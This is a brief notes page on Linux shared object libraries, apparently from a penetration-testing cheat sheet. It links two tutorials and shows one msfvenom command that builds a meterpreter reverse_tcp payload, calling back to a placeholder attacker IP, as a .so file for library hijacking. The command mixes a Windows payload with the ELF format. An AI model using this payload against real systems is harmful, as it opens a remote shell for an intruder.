 # 🟢 Shared Object Libraries

{% embed url="http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html" %}

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f elf -o /tmp/my_payload.so

```

{% embed url="https://enchildfone.wordpress.com/2010/03/23/a-description-of-rpath-origin-ld_library_path-and-portable-linux-binaries" %}

